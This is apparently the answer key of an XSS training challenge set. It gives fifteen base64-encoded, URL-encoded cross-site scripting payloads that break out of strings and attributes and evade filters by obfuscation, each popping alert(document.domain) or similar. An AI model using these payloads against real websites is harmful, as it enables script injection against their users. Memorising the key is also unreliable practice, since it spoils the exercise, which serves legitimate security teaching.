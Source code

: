 # Solutions
Base64 of possible solutions.

Please try as hard as possible before looking at the possible solutions. 

___


Example 1

```
MSUyOSU3QiU3RCU3RCUzQmFsZXJ0JTI4ZG9jdW1lbnQuZG9tYWluJTI5JTNCZnVuY3Rpb24lMjB4eXolMjglMjklN0JpZiUyMCUyODElM0QlM0QlM0Qx
```
Example 2

```
JTI3LWFsZXJ0JTI4ZG9jdW1lbnQuZG9tYWluJTI5LSUyNw==
```

Example 3 (contains at least 3 different possible payloads. Some may require user interaction)

```
amF2YXNjcmlwdCUzQWFsZXJ0JTI4MSUyOSUzQiUyMm9uY2xpY2slM0QlMjJhbGVydCUyODIlMjklMjIlM0UlM0NzY3JpcHQlM0VhbGVydCUyODMlMjklM0Mvc2NyaXB0JTNF
```

Example 4

```
JTI3JTNCJTdEJTdEJTNCYWxlcnQlMjhkb2N1bWVudC5kb21haW4lMjklM0JmdW5jdGlvbiUyMHh5eiUyOCUyOSU3QiUyMGlmJTIwJTI4MSUzRCUzRCUzRDElMjklN0IvLw==
```

Example 5

```
JTI3KmFsZXJ0JTI4ZG9jdW1lbnQlNUIlMjdkb21haW4lMjclNUQlMjkqJTI3
```

Example 6 (several solutions are possile)

```
JTI3JTJiZXZhbCglMjdhJTI3JTJiJTI3bGUlMjclMmIlMjdydCUyNyUyYiUyNyUyNyUyYiUyNyhkb2N1bSUyNyUyYiUyN2VudCUyNyUyYiUyNy4lMjclMmIlMjdkb20lMjclMmIlMjdhaW4pJTI3JTJiJTI3JTI3KSUyYiUyNw==
```
Example 7

```
JTI3KndpbmRvdyU1QiU1QiUyN2ElMjclMkMlMjdsJTI3JTVELmNvbmNhdCUyOCU1QiUyN2VyJTI3JTJDJTI3dCUyNyU1RCUyOS5qb2luJTYwJTYwJTVEJTI4ZG9jZG9jdW1lbnR1bWVudCU1QiUyN2RvbWFpbiUyNyU1RCUyOSolMjc=
```

Example 8

```
JTI3KmFsYWxlcnRlcnQlNjB4c3MlNjAqJTI3
```

Example 9

```
JTVDeDI3JTVDeDNiJTVDeDYxJTVDeDZjJTVDeDY1JTVDeDcyJTVDeDc0JTVDeDI4ZG9jdW0lNUN4NjVuJTVDeDc0JTVDeDJFZG9tJTVDeDYxaW4lNUN4MjklNUN4MmYlNUN4MmY=
```

Example 10 (read the php file)

```
MSMlMjUzQ3NjcmlwdCUyNTNFYWxlcnQoZG9jdW1lbnQuZG9tYWluKSUyNTNDL3NjcmlwdCUyNTNF
```

Example 11

```
JTVDdTAwNjElNUN1MDA2YyU1Q3UwMDY1JTVDdTAwNzIlNUN1MDA3NCUyOCU1Q3UwMDY0JTVDdTAwNmYlNUN1MDA2MyU1Q3UwMDc1JTVDdTAwNmQlNUN1MDA2NSU1Q3UwMDZlJTVDdTAwNzQuJTVDdTAwNjQlNUN1MDA2ZiU1Q3UwMDZkJTVDdTAwNjElNUN1MDA2OSU1Q3UwMDZlJTI5JTNC
```

Example 12

```
YSUyNyk7YWxlcnQoZG9jdW1lbnQuZG9tYWluKTthdG9iKCUyN2E=
```

Example 13

```
JTNDYSUyMA==
aHJlZiUzRCUyNyUwRGphdmFzY3JpcHQlM0ElMEFhbGVydChkb2N1bWVudC5kb21haW4pJTI3JTNFY2xpY2slMjBtZSUzQy9hJTNF
```

Example 14

```
JTI0JTdCYSU1QjElNUQlN0QlMjQlN0JlbGUlN0QlMjQlN0JhJTVCMiU1RCU3RCUyNCU3QnRleHQlN0QlMjQlN0JhJTVCMSU1RCU3RCUyNCU3QmElNUIwJTVEJTdEJTI0JTdCZWxlJTdEJTI0JTdCYSU1QjIlNUQlN0Q=
```

Example 15

```
JTI3JTJCZG9jdW1lbnQlNUIlMjdkb21haW4lMjclNUQlMkIlMjc=
```

